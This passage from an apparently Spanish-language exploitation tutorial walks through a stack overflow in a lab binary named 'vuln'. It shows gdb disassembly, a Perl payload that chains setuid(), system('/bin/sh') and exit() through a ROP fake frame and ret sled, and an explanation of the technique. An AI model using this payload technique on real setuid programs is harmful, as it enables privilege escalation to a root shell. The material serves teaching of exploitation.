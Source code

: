 Ahora revisemos el stack buscando un NULL cerquita  
``$ gdb -q vuln  
Reading symbols from vuln...(no debugging symbols found)...done.  
(gdb) disas imprimir  
Dump of assembler code for function imprimir:  
0x0804843b <+0>: push %ebp  
0x0804843c <+1>: mov %esp,%ebp  
0x0804843e <+3>: sub $0x88,%esp  
0x08048444 <+9>: sub $0x8,%esp  
0x08048447 <+12>: pushl 0x8(%ebp)  
0x0804844a <+15>: lea -0x88(%ebp),%eax  
0x08048450 <+21>: push %eax  
0x08048451 <+22>: call 0x8048300 <strcpy@plt>  
0x08048456 <+27>: add $0x10,%esp  
0x08048459 <+30>: sub $0xc,%esp  
0x0804845c <+33>: lea -0x88(%ebp),%eax  
0x08048462 <+39>: push %eax  
0x08048463 <+40>: call 0x8048310 <puts@plt>  
0x08048468 <+45>: add $0x10,%esp  
0x0804846b <+48>: nop  
0x0804846c <+49>: leave  
0x0804846d <+50>: ret  
End of assembler dump.  
(gdb) br *imprimir +50  
Breakpoint 1 at 0x804846d  
(gdb) run "`perl -e 'print "x50xc8xe3xf7" . "xc5x35xebxf7" . "xc8xecxf5xf7" . "A"x124 . "xaaxaaxffxff" . "x27x85x04x08" . "x60x3dxebxf7" . "x6cx84x04x08"'`"  
Starting program: /home/arget/vuln "`perl -e 'print "x50xc8xe3xf7" . "xc5x35xebxf7" . "xc8xecxf5xf7" . "A"x124 . "xaaxaaxffxff" . "x27x85x04x08" . "x60x3dxebxf7" . "x6cx84x04x08"'`"  
[...]AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]``

Breakpoint 1, 0x0804846d in imprimir ()  
(gdb) x $esp  
0xffffd2ac: 0x08048527 # &ret  
(gdb)  
0xffffd2b0: 0xf7eb3d60 # &setuid()  
(gdb)  
0xffffd2b4: 0x0804846c # &leave;ret  
(gdb)  
0xffffd2b8: 0xffffd300  
(gdb)  
0xffffd2bc: 0x080484d1  
(gdb)  
0xffffd2c0: 0xf7fb53dc  
(gdb)  
0xffffd2c4: 0xffffd2e0  
(gdb)  
0xffffd2c8: 0x00000000  
(gdb)  
(En el output del programa suprimo los bytes no imprimibles, porque ya me ha dado alguno un dolor de cabeza por desformatear el texto en el post, ya que algunos pueden indicar una tabulación vertical, salto de página o cosas similares que estropean el diseño del blog).  
Encontramos un NULL 5 posiciones más arriba, de modo que introduciremos 4 ret’s más.  
`perl -e 'print "x50xc8xe3xf7" . "xc5x35xebxf7" . "xc8xecxf5xf7" . "A"x124 . "xaaxaaxffxff" . "x27x85x04x08"x5 . "x60x3dxebxf7" . "x6cx84x04x08"'`  
La explotación ocurrirá de este modo:  
— El `leave` de imprimir() recoge en el EBP un frame falso que apunta 4 bytes bajo el comienzo de nuestro buffer (donde hemos colocado nuestro ROP `system("/bin/sh")+exit()`).  
— El `ret` de imprimir() recoge una dirección a otra instrucción `ret`, que a su vez recogerá otra dirección a `ret`, es simplemente una forma de llegar a donde queremos llegar, a dos posiciones tras el 0x00000000 (tienen que ser dos posiciones para que setuid() reconozca el 0x00000000 como argumento). Valdría también emplear un gadget pop;pop;pop;pop;ret y colocar relleno, pero he preferido esto, que además no modifica los registros.  